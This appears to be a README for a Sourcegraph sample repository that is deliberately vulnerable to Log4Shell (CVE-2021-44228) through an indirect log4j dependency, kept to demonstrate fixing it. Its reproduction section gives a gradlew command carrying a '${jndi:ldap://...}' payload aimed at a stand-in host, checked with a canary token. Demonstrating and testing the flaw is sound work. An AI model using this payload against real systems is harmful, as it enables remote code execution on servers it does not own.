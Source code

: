 # sample-vulnerable-log4j-indirect-app

This repository is a sample repository that is vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) because it indirectly depends on a vulnerable version of log4j via its dependency on https://github.com/sgtest/sample-vulnerable-log4j-direct-lib.

## Repro of vulnerability

First, visit http://canarytokens.org/ and create a new Log4Shell token (that emails you when it gets triggered). Then run the following command in this repository, where the `--args` value is the `${jndi:...}` value that you got when creating the canary token.

``` shell
./gradlew run --args='${jndi:ldap://some.host.example.com/}'
```

You will get an email that your canary token was triggered when you run that command (if the vulnerable log4j version is used).

## Related repositories

The following repositories are used to demonstrate Sourcegraph functionality related to fixing [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228):

- https://github.com/sourcegraph/sample-vulnerable-log4j-direct-app
- https://github.com/sourcegraph/sample-vulnerable-log4j-direct-lib
- https://github.com/sourcegraph/sample-vulnerable-log4j-indirect-app